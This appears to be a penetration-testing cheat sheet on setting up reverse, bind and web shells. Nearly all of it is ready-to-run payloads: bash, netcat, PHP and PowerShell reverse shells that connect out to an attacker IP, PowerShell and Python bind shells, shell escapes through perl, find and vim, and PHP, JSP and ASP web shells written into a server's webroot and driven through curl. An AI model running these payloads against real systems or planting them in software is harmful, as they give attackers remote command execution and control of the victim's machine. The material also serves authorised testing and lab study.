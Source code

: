 ```yaml
---
description: >-
  This is a collection of few useful scripts for creating reverse, bind and web
  shells.
---
```


# Setting up Shells

## Reverse Shells:

### Preparing the shell script:

#### Linux target:

{% tabs %}
{% tab title="Bash" %}
```bash
$ bash -c 'bash -i >& /dev/tcp/1.1.1.1/PORT 0>&1'
# OR 
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENEING PORT> >/tmp/f
```
{% endtab %}

{% tab title="PHP" %}
```php
# To be saved in a .php file.
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 <LISTENEING PORT> >/tmp/f"); ?>
```
{% endtab %}
{% endtabs %}

Other resources online will be helpful in other cases if we need another programming language to execute the script/code not only bash or PHP or even if the payloads above don't work.

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools" %}

{% embed url="https://www.revshells.com/" %}

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

#### Windows Target:

```powershell
target-host> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',PORT);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Setting up a listener on our attacking machine:

```bash
attacking-machine$ nc -lvnp 1234
   -l Listen mode.
   -v Verbose mode.
   -n Disable DNS resolution and only connect from/to IPs, to speed up the connection.
   -p 1234 Port number netcat is listening on.
```

#### Results of the injection:

```bash
attacker@attacking-machine$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [1.1.1.1] from (UNKNOWN) [10.10.10.10] 41572

victim@target-host> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

{% hint style="success" %}
<mark style="color:green;">We successfully got a connection back now it's time to make it more stable and efficient.</mark>
{% endhint %}

### Interactive Shells

In order to upgrade our shell to a fully TTY let's follow these steps:

#### Full TTY

```bash
victim@target$ python3 -c 'import pty; pty.spawn("/bin/bash")'
victim@target-host$ ^Z
attacker@attacking-machine$ stty raw -echo && fg
[Enter]
[Enter]
victim@target-host$
# Terminal size :
victim@target-host$ export TERM=xterm-256color
victim@target-host$ stty rows 67 columns 318


Raw mode: This means that characters are delivered to the application as soon as 
they are typed, without any line buffering or special interpretation (such as Ctrl+C for interrupt).
-echo: By turning off echoing, characters typed by the user won't be displayed on the screen.
```

{% hint style="success" %}
<mark style="color:green;">Now we can use the full terminal features.</mark>
{% endhint %}

{% hint style="warning" %}
Intuitively, since we're executing commands on a target machine, all of our work highly and directly  depends on the permissions of the files/binaries we're aiming to execute. So?

sudo -l your way in in easy boxes :smile:
{% endhint %}

#### Bash

```bash
victim@target$/bin/sh -i
sh: no job control in this shell
sh-4.2$
```

#### Perl

```bash
victim@target$perl —e 'exec "/bin/sh";'

#To be run inside of a perl script
victim@target$perl: exec "/bin/sh"; 
```

#### Ruby

```bash
victim@target$ruby: exec "/bin/sh"
```

#### Lua

```bash
victim@target$lua: os.execute('/bin/sh')
```

#### Find

```bash
victim@target$find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
#Example:
find . -exec /bin/sh \; -quit
```

#### Vim

```bash
victim@target$vim -c ':!/bin/sh'
```

```bash
victim@target$vim
:set shell=/bin/sh
:shell
```

## Bind shells:

### Listener on the target machine:

#### Linux Target:

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

#### Windows target:

{% tabs %}
{% tab title="PowerShell" %}
```powershell
atrget-host> powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endtab %}

{% tab title="Python" %}
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endtab %}
{% endtabs %}

### Connecting to the target:

```bash
$ nc 10.10.10.10 1234
# Successful connection a shell is now open:
victim@target-host> id # Our command, since this is a windows target we should inject a cmdlet
uid=33(www-data) gid=33(www-data) groups=33(www-data) # server response
```

{% hint style="success" %}
We <mark style="color:green;">successfully</mark> got a remote shell on the target machine. If it isn't an unstable and "featureless" terminal, we can upgrade to a full TTY as in the [Reverse shells paragraph](setting-up-shells.md#id-1.-reverse-shells).
{% endhint %}

## Web Shells:

### Preparing the shell script:

{% tabs %}
{% tab title="PHP" %}
```php
<?php system($_REQUEST["cmd"]); ?>
```
{% endtab %}

{% tab title="Java" %}
```java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
{% endtab %}

{% tab title="ASP" %}
```aspnet
<% eval request("cmd") %>
```
{% endtab %}
{% endtabs %}

### Injecting to the webroot:

<table><thead><tr><th>Web Server</th><th align="center">Default Webroot</th><th data-hidden align="center"></th></tr></thead><tbody><tr><td>Apache</td><td align="center">/var/www/html/</td><td align="center"></td></tr><tr><td>Nginx</td><td align="center">/usr/local/nginx/html/</td><td align="center"></td></tr><tr><td>IIS</td><td align="center">c:\inetpub\wwwroot\</td><td align="center"></td></tr><tr><td>XAMPP</td><td align="center">C:\xampp\htdocs\</td><td align="center"></td></tr></tbody></table>

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a <mark style="color:red;">**Linux host running Apache**</mark>, we can write a **PHP** shell with the following command:

```bash
$ echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Execution:

1. Visit the shell.php page on the compromised website, and use `?cmd=id` to execute the `id` command:\
   `http://SERVER_IP:PORT/shell.php?cmd=id`\
   We'll get the result of the `id` command on the web page!&#x20;
2. Or Use `curl` command: `$ curl http://SERVER_IP:PORT/shell.php?cmd=id`

